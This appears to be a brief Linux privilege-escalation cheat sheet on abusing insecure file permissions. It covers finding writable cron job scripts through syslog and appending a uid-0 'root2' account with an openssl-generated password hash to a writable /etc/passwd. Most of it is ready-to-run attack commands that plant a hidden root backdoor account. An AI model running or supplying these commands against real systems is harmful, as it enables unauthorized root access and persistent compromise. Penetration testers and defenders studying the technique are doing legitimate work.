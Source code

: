 # Insecure File Permissions

## Abusing Cron Jobs

look for executed cron jobs from log, and see if the file is writable

```
grep "CRON" /var/log/syslog
```

## Abusing Password Authentication

if we can write /etc/passwd we can replace the password or create new one with root permission

```
openssl passwd w00t

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

```
